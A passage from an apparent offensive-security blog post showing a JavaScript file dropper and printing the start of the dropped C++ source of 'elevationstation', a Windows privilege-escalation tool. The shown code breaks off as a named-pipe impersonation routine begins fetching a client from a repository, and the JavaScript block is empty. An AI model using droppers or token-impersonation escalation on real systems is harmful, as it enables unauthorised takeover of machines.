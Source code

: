 ```js
```

let's run it!

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/56572791-d738-4fd8-9418-13d01caeeaa9)
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/478335e5-d407-4148-8afe-92f7128a4e14)

want to see what's inside the dropped file?  It's the code to elevationstation:

```
C:\temp\ourjsfiles>type c:\users\Public\thedroppedfile
#define _CRT_SECURE_NO_WARNINGS
#include <iostream>
#include <fstream>
#include <Windows.h>
#include <string>
#include <conio.h>
#include <lmcons.h>
#include <tchar.h>
#include <strsafe.h>
#include <sddl.h>
#include <userenv.h>
#include <Dbghelp.h>
#include <winternl.h>
#include <TlHelp32.h>
#include <psapi.h>
#include "def.h"

#pragma comment(lib, "userenv.lib")

using namespace std;

//errorcodes: https://learn.microsoft.com/en-us/windows/win32/debug/system-error-codes--0-499-
//integrity levels (good resource!): https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/bb625963(v=msdn.10)?redirectedfrom=MSDN
//get process name: https://stackoverflow.com/questions/4570174/how-to-get-the-process-name-in-c
//change integrity level: https://social.msdn.microsoft.com/Forums/en-US/4c78de2f-376c-4eb1-834b-de681f866ada/change-integrity-level-in-current-process-uiaccess?forum=vcgeneral
//more integrity level info: https://stackoverflow.com/questions/12774738/how-to-determine-the-integrity-level-of-a-process
//more integrity level info #2: https://social.msdn.microsoft.com/Forums/windowsdesktop/en-US/09ebc7f1-e3e9-4fd3-a57e-1d43b36e8f82/how-to-tell-what-processes-are-running-with-elevated-privileges?forum=windowssecurity
//SID info: https://learn.microsoft.com/en-US/windows-server/identity/ad-ds/manage/understand-security-identifiers
//lower our token integrity level example: https://kb.digital-detective.net/display/BF/Understanding+and+Working+in+Protected+Mode+Internet+Explorer

void Color(int color)
{
    SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), color);
}
BOOL NamedPipeImpersonate()
{
    setProcessPrivs(SE_IMPERSONATE_NAME);
    Color(2);
    cout << "[+] Downloading named pipe client for you from the repo\n";
    Color(7);
```
